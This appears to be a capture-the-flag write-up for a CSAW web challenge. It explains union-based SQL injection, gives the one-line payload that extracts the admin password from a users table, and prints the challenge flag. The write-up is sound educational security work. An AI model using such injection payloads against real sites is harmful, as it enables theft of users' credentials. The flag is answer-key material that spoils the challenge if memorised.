 # Easy_Search
![Category Web](https://img.shields.io/badge/category-web-%232fc4e5.svg?longCache=true&style=popout)
![Score 100](https://img.shields.io/badge/score-100-brightgreen.svg?longCache=true&style=popout)
![72 solves](https://img.shields.io/badge/solves-72-%2317a2b8.svg?longCache=true&style=popout)

Write up By
**Robe Zhang** [ThirdRepublic](https://github.com/ThirdRepublic)

## Challenge Description
> Oh boy SQLI sure is easy right?
Can you change the query that the search performs to get the admin's password?
```
web.chal.csaw.io:10103
```

## Background Information
The objective of the challenge is to use SQL injection to extract data from the database.  
The usage of the **UNION** statement allows for additional results to be appended to the SQL query.  
>> Union based SQL injection allows an attacker to extract information from the database by extending the results returned by the original query. The Union operator can only be used if the original/new queries have the same structure (number and data type of columns). [Reference](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql)
<br />
[Read More](https://www.w3schools.com/sql/sql_injection.asp) <br />
[SQLi Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Solution
The webpage was given. <br /> <br />
![screenshot](page.PNG) <br />

Search:
> ' union select password from users; -- 

**Note** **```  --  ```** is an inline comment.  This ignores the rest of the SQL query.

![screenshot](solution.PNG)
## Flag
```
flag{W45_7h47_4n_4c7u4l_VlUn_0NC3}
```
